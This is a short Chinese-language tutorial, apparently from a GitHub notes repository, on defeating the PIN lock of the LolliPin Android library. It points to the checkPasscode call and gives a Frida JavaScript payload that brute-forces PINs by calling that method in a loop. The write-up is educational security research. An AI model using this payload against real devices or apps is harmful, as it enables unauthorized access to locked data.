





## APK

Build from [github](https://github.com/OrangeGangsters/LolliPin)

## Ref
http://blog.mdsec.co.uk/2015/04/instrumenting-android-applications-with.html

----

## Local Storage



PIN code 被加密存放.

## Source Code






关键就是这一句

```java

// com.github.orangegangsters.lollipin.lib.managers.AppLockActivity:282
this.mLockManager.getAppLock().checkPasscode(this.mPinCode)
```

再看mLockManager 是如何获得的.




## Exploit

于是我们的 frida exploit 就可以利用以下的 js payload进行暴力破解.

```javascript
Java.perform(function () {
   
    var LockManager = Java.use("com.github.orangegangsters.lollipin.lib.managers.LockManager");
    var LockManagerInstance = LockManager.getInstance();
    var AppLock = LockManagerInstance.getAppLock();
 
    for(var i=1230; i<1235; i++)
    {
        var result = AppLock.checkPasscode(i+"");
        send(i + ": " + result);
    }
});
```
## 后记

这个apk跟[hacking-android-apps-with-frida-2](https://www.codemetrix.net/hacking-android-apps-with-frida-2/)不一样. [hacking-android-apps-with-frida-2](https://www.codemetrix.net/hacking-android-apps-with-frida-2/) 由于是一个 crackme, 密码已写进 binary 中, 通过改写程序的 implementation, 让其自动打印个密码. 

这个例子不是 crackme, 不需要写进 binary, 相反, 它是把用户定义的PIN加密后储存在 Local Storage. 由于是加密的, 计算打印出来也没用, 因为你要输入的是加密前的 PIN, 不是加密后的 PIN.